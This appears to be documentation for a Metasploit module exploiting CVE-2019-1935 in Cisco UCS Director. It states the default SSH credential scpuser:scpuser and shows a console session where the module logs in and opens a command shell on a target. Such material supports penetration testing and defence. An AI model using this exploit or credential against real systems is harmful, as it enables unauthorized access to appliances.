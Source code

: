 ## Vulnerable Application

This module abuses a known default password on Cisco UCS Director. The 'scpuser'
has the password of 'scpuser', and allows an attacker to login to the virtual appliance
via SSH (aka CVE-2019-1935).

This module has been tested with Cisco UCS Director virtual machines 6.6.0 and 6.7.0.
Note that Cisco also mentions in their advisory that their IMC Supervisor and
UCS Director Express are also affected by these vulnerabilities, but this module
was not tested with those products.

## Scenarios

Setup RHOST and run it!

```
msf5 exploit(linux/http/cisco_ucs_rce) > use exploit/linux/ssh/cisco_ucs_scpuser
msf5 exploit(linux/ssh/cisco_ucs_scpuser) > set rhost 10.9.8.121
rhost => 10.9.8.121
msf5 exploit(linux/ssh/cisco_ucs_scpuser) > set lhost 10.9.8.1
lhost => 10.9.8.1
msf5 exploit(linux/ssh/cisco_ucs_scpuser) > run

[*] 10.9.8.121:22 - Attempt to login to the Cisco appliance...
[+] 10.9.8.121:22 - Login Successful (scpuser:scpuser)

[*] Found shell.
[*] Command shell session 1 opened (10.9.8.1:38113 -> 10.9.8.121:22) at 2019-08-29 22:27:42 +0700

whoami
scpuser
^C
Abort session 1? [y/N]  y
""

[*] 10.9.8.121 - Command shell session 1 closed.  Reason: User exit
```
